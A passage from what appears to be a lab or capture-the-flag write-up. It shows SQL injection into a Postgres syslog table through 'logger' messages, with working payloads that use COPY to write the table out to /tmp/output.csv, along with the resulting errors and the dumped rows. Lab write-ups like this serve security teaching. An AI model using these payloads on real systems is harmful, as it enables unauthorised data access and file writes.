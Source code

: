 
The escaped quotes outside of `' '` are causing issues. I then tried without
`''` around the filename, but it errored as well. Some googling for “postgres
quote alternative” led me to the [Postgres Lexical
Structure](https://www.postgresql.org/docs/9.1/sql-syntax-lexical.html), where
I see that `$$` is an alternative for single quote. I try that:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;-- -"
    

Another error:

    
    
    2019-09-01 14:07:05.018 EDT [15701] postgres@syslog ERROR:  syntax error at or near "14194" at character 115
    2019-09-01 14:07:05.018 EDT [15701] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To 14194/tmp/output.csv14194 With CSV;-- -','2019-09-01 18:07:05')
    

This is interesting, because the `$$` seems to have reached bash, where it was
evaluated as the current pid. I try now to escape those:

    
    
    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To \$$/tmp/output.csv\$$ With CSV;-- -"
    

No error. And I see a table dump in `/tmp/output.csv`:

    
    
    3,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    4,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    5,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    8,,,2019-09-01 14:48:17,,,," test message13348,null); select * from syslog_liness --",,,,,,,,,,,,,,,,
    9,,,2019-09-01 14:48:35,,,," test13348, 13348test13348); --",,,,,,,,,,,,,,,,
    10,,,2019-09-01 14:48:38,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    11,,,2019-09-01 14:48:46,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    12,,,2019-09-01 14:48:56,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    13,,,2019-09-01 14:50:00,,,, $,,,,,,,,,,,,,,,,
    14,,,2019-09-01 14:50:08,,,, 13348,,,,,,,,,,,,,,,,
    15,,,,,,, \\\,,,,,,,,,,,,,,,,
    16,,,,,,, \\\,,,,,,,,,,,,,,,,
    19,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    22,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    23,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    24,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    25,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    26,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    31,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    32,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    33,,,2019-09-01 17:45:02,,,, test,,,,,,,,,,,,,,,,
    34,,,,,,, test\,,,,,,,,,,,,,,,,
    35,,,,,,, test\,,,,,,,,,,,,,,,,
    36,,,,,,, test\,,,,,,,,,,,,,,,,
    37,,,,,,, test\,,,,,,,,,,,,,,,,
    38,,,,,,, test\,,,,,,,,,,,,,,,,
    41,,,,,,, test\,,,,,,,,,,,,,,,,
    44,,,,,,, sd\,,,,,,,,,,,,,,,,
    45,,,,,,, sd\,,,,,,,,,,,,,,,,
    